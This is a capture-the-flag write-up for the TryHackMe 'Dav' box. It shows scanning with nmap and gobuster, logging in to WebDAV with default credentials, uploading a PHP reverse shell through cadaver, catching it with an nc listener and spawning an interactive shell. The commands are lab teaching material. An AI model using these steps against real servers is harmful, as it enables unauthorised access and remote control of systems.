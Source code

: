 # 'Dav' box writeup
## Dav is a CTF box created by stuxnet and available on the [TryHackMe platform](https://tryhackme.com).
## Read about [WebDAV](https://en.wikipedia.org/wiki/WebDAV), [Dav default credentials](http://xforeveryman.blogspot.com/2012/01/helper-webdav-xampp-173-default.html) and [Cadaver, the WebDAV client](https://docs.oracle.com/html/E10235_03/webdav007.htm)
# ![bg](images/background.jpeg?raw=true "Title")

## Foothold
+ **We deploy the machine and start with a nmap scan for open ports**

``nmap -sV -sC -oN scan1 10.10.62.166``

+ **From our result, we can see that the 80 port is open, which is running an Appache with a default page**

# ![nmap](images/nmap_dirb_scan.jpg?raw=true "nmap")

+ **Let's run a gobuster search too and see our results. It seems that a webdav service is runnning**

``gobuster dir -u http://10.10.62.166/ -w /usr/share/wordlists/dirb/common.txt``

# ![dirb](images/nmap_dirb_scan2.jpg?raw=true "dirb")

**Navigating to the /webdav directory, the login page shows up. We need some credentials, and searching on google we can find some**

# ![login](images/login.png?raw=true "login")

``user: wampp``
``pass: xampp``

+ **After we log in, we can see a file named `passwd.dav` inside the directory**

# ![webdav](images/webdav.jpg?raw=true "webdav")

**Reading the file, it seems to be some credentials with a hashed password. Trying to unhashed it, i realised it's nothing that we can do with it so i continued to read about WebDAV service. It has some similarities with the ftp, among with the cadaver: we can upload some files in that /webdav directory. Let's login with the cadaver, the WebDAV client, using the same default credentials**

``cadaver http://10.10.62.166/webdav/``
``Username: wampp``
``Password: xampp``

+ **Now, let's try to upload a reverse php shell. I use the [pentestmonkey reverse shell](https://github.com/pentestmonkey/php-reverse-shell). Get it and modify the $ip parameter with your tryhackme tunneled ip and then upload it on our webdav directory**

``put php-reverse-shell.php``

# ![php](images/php-reverse-shell.jpg?raw=true "php")

# ![php](images/uploaded.jpg?raw=true "php")

+ **It seems like our reverse shell was uploaded, so let's start a nc listener and access our php shell file**

``nc -lvnp 1234``
``http://10.10.62.166/webdav/php-reverse-shell.php``

# ![in](images/werein.jpg?raw=true "in")

**And we're in. Let's spawn an interactive shell and read our first flag, located inside the home directory of the merlin user**

``python -c 'import pty;pty.spawn("/bin/bash")'``





